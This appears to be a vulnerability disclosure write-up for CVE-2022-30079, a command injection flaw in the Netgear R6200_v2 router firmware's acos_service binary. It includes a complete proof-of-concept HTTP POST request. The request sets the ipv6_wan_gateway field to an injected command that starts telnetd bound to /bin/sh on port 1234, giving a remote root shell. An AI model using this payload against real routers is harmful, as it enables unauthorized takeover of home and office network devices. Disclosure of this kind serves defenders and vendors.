



# Command injection vulnerability in Netgear R6200_v2 router
## Basic information
* CVE-ID：CVE-2022-30079
* Vendor: Netgear
* Product: R6200_v2
* Firmware version: All firmware version including the latest R6200v2-V1.0.3.12_10.1.11
* Firmware download link: https://www.downloads.netgear.com/files/GDC/R6200V2/R6200v2-V1.0.3.12_10.1.11.zip
* Type: Insecure permissions - code execution

## Vulnerability description
Vulnerability exists in the binary `/sbin/acos_service` in all R6200_v2 firmware versions including the latest R6200v2-V1.0.3.12. It might also infect some other products, which is recently not analyzed.  
Taking the latest R6200_V2_1.0.3.12 firmware as an example, the variable `ipv6_wan_gateway ` located at offset 0x19B98 is passed into a `sprintf` function by the format string `%s`. Then, the value is passed to a `system`, which leads to a command injection vulnerability. The disassemble code and the c code are presented below:  
  
  
Through further attemps, we found that remote authenticated attackers can modify the value of the vulnerable parameter in website http://192.168.1.1/IPV6_fixed.htm by sending a modified request. As the vulnerable parameter is directly saved in nvram after sending the request, attackers can then execute arbitrary remote command as they controlled the parameter of a `system` call.  
After visiting the web page and sending a `POST` request, if we set the `ipv6_wan_gateway` parameter of the request to be `%24%28telnetd+-l+%2Fbin%2Fsh+-p+1234+-b+0.0.0.0%29`, we can actually execute command which `$(telnetd -l /bin/sh -p 1234-b 0.0.0.0)`.  
A potential PoC is shown below:  
```
POST /ipv6_fix.cgi?id=2068267834 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1087
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4x
Connection: close
Referer: http://192.168.1.1/IPV6_fixed.htm
Cookie: XSRF_TOKEN=1222440606
Upgrade-Insecure-Requests: 1
apply=Apply&login_type=Fixed&IPv6WanAddr1=2001&IPv6WanAddr2=3CA2&IPv6WanAddr3=010F&IPv6WanAddr4=00A1&IPv6WanAddr5=121C&IPv6WanAddr6=0000&IPv6WanAddr7=0000&IPv6WanAddr8=0010&ProfixWanLength=6&IPv6Gateway1=2001&IPv6Gateway2=3CA2&IPv6Gateway3=010F&IPv6Gateway4=00A1&IPv6Gateway5=121C&IPv6Gateway6=0000&IPv6Gateway7=0000&IPv6Gateway8=0002&DAddr1=&DAddr2=&DAddr3=&DAddr4=&DAddr5=&DAddr6=&DAddr7=&DAddr8=&PDAddr1=&PDAddr2=&PDAddr3=&PDAddr4=&PDAddr5=&PDAddr6=&PDAddr7=&PDAddr8=&IpAssign=auto&IPv6LanAddr1=3113&IPv6LanAddr2=3CA2&IPv6LanAddr3=010F&IPv6LanAddr4=001A&IPv6LanAddr5=121B&IPv6LanAddr6=0000&IPv6LanAddr7=0000&IPv6LanAddr8=0001&ProfixLanLength=6&ipv6_wan_ipaddr=2001%3A3CA2%3A010F%3A00A1%3A121C%3A0000%3A0000%3A0010&ipv6_lan_ipaddr=3113%3A3CA2%3A010F%3A001A%3A121B%3A0000%3A0000%3A0001&ipv6_wan_length=6&ipv6_lan_length=6&ipv6_pri_dns=%3A%3A%3A%3A%3A%3A%3A&ipv6_sec_dns=%3A%3A%3A%3A%3A%3A%3A&ipv6_wan_gateway=%24%28telnetd+-l+%2Fbin%2Fsh+-p+1234+-b+0.0.0.0%29&ipv6_enable_dhcp=&ipv6_proto=fixed
```
An evidence of the vulnerable is shown below:  


## Acknowledgment
This vulnerability credits to [@maybethetricker](https://github.com/maybethetricker) and [@river-li](https://github.com/river-li)

